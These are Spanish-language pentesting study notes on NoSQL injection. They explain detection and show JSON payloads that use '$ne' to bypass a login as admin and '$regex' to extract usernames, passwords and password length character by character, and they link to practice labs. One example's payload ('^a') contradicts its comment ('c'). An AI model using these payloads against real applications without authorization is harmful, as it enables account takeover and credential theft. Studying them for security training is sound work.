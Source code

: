 ---------
- Tags: #OWASP_TOP_10 #vulnerabilidad #hacking #NoSQLI
--------------
# Definición

> Las **inyecciones NoSQL** son ataques informáticos que se centran en bases de datos **NoSQL**, como **MongoDB** o **Cassandra**, aprovechando debilidades para acceder o modificar datos de manera no autorizada. Estas inyecciones se producen cuando una aplicación web permite que un atacante envíe datos maliciosos a través de una consulta a la base de datos, que luego puede ser ejecutada por la aplicación sin la debida validación.
> 
> Es un ataque muy parecido a la [[SQL Injection]], solo que las bases de datos ahora son **NoSQL**. Estas inyecciones se aprovechan de consultas hacia la base de datos que se basan en documentos, en lugar de tablas relacionales como **SQL**, para enviar datos maliciosos que puedan manipular la consulta de la base de datos.
> 
> Las inyecciones **NoSQL** explotan la falta de validación de los datos en una consulta a la base de datos.

-----------
# Detección de vulnerabilidad

Podríamos tratar de realizar el siguiente proceso:

- **Búsqueda de entradas de datos:** Tratamos de identificar las áreas en la página donde los usuarios podamos introducir datos, como formularios, campos de búsqueda o incluso una URL con parámetros. 

- **Manipulación de los datos:** Podemos intentar ingresar datos inyectados que podrían explotar una vulnerabilidad NoSQLi. Si la aplicación responde con mensajes de error no esperados o raros, podría ser un indicio de una posible vulnerabilidad. Para ver estos tipos de datos que podrían explotar la vulnerabilidad, podemos visitar la siguiente página: [NoSQLi cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

- **Errores de sintaxis o tiempos de respuesta alterados:** Si la aplicación devuelve errores de sintaxis específicos relacionados con la base de datos o si hemos realizado una consulta maliciosa y está ralentizando el tiempo de respuesta de la página web, podría ser también vulnerable.

-----------
# Explotación

En este tipo de ataques trataremos de realizar operaciones como **not equal** o **greater**. Por ejemplo podemos jugar con que el usuario sea admin pero la contraseña no sea igual a admin o cualquier otra cadena. Al realizarse dicha comprobación, se verifica que la contraseña no es igual a lo que se le ha proporcionado, de manera que podríamos tener acceso.

Para poder proceder con el ataque necesitamos interceptar la petición, por lo que haremos uso de la herramienta [[Burpsuite]], y podremos ir modificando los datos a nuestro placer:

```bash
{"username":"admin","password":"test"}         #Petición original en formato json
{"username":"admin", "password": {"$ne":"test"}}    #Petición modificada
```

Esta manera nos garantizaría el ingreso como el usuario admin. 

A veces nos interesaría no solo ganar acceso al sistema, sino conseguir los posibles **usuarios** y **contraseñas** existentes en la base de datos, de manera que podemos trabajar con la función **regex** y trabajar con expresiones regulares para intentar realizar un poco de fuerza bruta de la siguiente manera:

```bash
{"username":"admin","password":"test"}                         #Petición original en formato json

{"username":{"$regex":"^a"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "a"
{"username":{"$regex":"^b"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "b"
{"username":{"$regex":"^a"}, "password": {"$ne":"test"}}       #Conseguimos acceso, hay al menos un usuario que empieza por "c"

{"username":{"$regex":"^ca"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "ca"
{"username":{"$regex":"^cb"}, "password": {"$ne":"test"}}       #No conseguimos acceso, no hay usuarios que empiezan por "cb"
...
```

De esta manera podríamos conseguir los usuarios existentes en la base de datos.

Igualmente se podría realizar para conseguir las contraseñas:

```bash
{"username":"admin","password":"test"}                         #Petición original en formato json

{"username":"admin", "password": {"$regex":"^a"}}       #No conseguimos acceso, la contraseña no empieza por "a"
{"username":"admin", "password": {"$regex":"^b"}}       #No conseguimos acceso, la contraseña no empieza por "b"
{"username":"admin", "password": {"$regex":"^c"}}       #Conseguimos acceso, la contraseña empieza por "c"

{"username":"admin", "password": {"$regex":"^ca"}}       #No conseguimos acceso, la contraseña no empieza por "ca"
{"username":"admin", "password": {"$regex":"^cb"}}       #No conseguimos acceso, la contraseña no empieza por "cb"
...
```

También podemos utilizar la función para conseguir el tamaño de una entidad, por ejemplo, para el tamaño de la contraseña:

```bash
{"username":"admin", "password": {"$regex":".{30}"}}    #No consguimos acceso, la contraseña tiene menos de 30 caracteres
{"username":"admin", "password": {"$regex":".{25}"}}    #Consguimos acceso, la contraseña tiene al menos de 25 caracteres
{"username":"admin", "password": {"$regex":".{29}"}}    #Consguimos acceso, la contraseña tiene 29 caracteres
```

Todo este proceso puede ser un poco tedioso, de manera que podemos automatizarlo en un script, como [[nosqli.py]].


Puede ser que se esté realizando una solicitud **GET** para pedir al servicio algún tipo de información, de manera que podemos interceptar la petición y tratar de convertirla a **POST** y puede ser que se muestre algo más de información. Además podemos intentar cambiar la cabecera *Content-Type* a *json*, y vemos a ver si interpreta la data que le proporcionemos en dicho formato, y si fuera el caso, podríamos proceder al igual que hacemos en el proceso anterior de **fuerza bruta**.


Puede darse el caso que nos estemos enfrentando a una base de datos en **MongoDB**, de manera que podemos probar distintos payloads para intentar conseguir leakear información de la base de datos. Una página donde podemos ver distintos payloads para este servicio es [NoSQLi cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection) o [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection).

-------------------------
# Ejemplos prácticos
- [Vulnerable-Node-App](https://github.com/Charlie-belmer/vulnerable-node-app)
- [NoSQLi Lab](https://github.com/digininja/nosqlilab)